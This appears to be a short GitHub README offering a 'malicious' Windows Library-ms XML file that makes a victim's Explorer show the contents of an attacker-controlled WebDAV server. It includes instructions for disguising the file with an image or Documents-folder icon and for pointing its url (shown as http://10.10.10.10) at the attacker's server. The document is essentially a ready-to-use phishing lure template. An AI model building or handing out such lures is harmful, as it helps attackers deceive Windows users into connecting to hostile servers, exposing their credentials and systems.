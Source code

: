 # MaliciousMSLibrary

Malicious Library-ms Example Code

This repository contains code for a malicious ms-Library that shows the contents of an attacker-controlled WebDAV server.

From the code below, changing *iconReference*  value to -1002 (keeping the same DLL) will change the icon to a Windows Documents folder. 
Actual value (-1003) sets the icon of an Image file icon.

*url* value must be changed to the WebDAV server address.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://10.10.10.10</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

